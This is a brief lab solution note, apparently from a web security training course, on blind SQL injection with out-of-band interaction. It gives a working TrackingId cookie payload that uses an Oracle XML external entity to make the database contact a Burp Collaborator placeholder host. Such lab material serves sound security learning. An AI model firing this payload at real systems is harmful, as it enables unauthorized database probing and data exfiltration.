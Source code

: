 # Lab 14: Blind SQL Injection with Out-of-Band Interaction

* **Solution**: Use TrackingId to trigger a DNS lookup to a Burp Collaborator domain if the admin exists, confirming vulnerability.
* **Final Payload**:
  * TrackingId=xyz' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-COLLABORATOR-ID.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual) --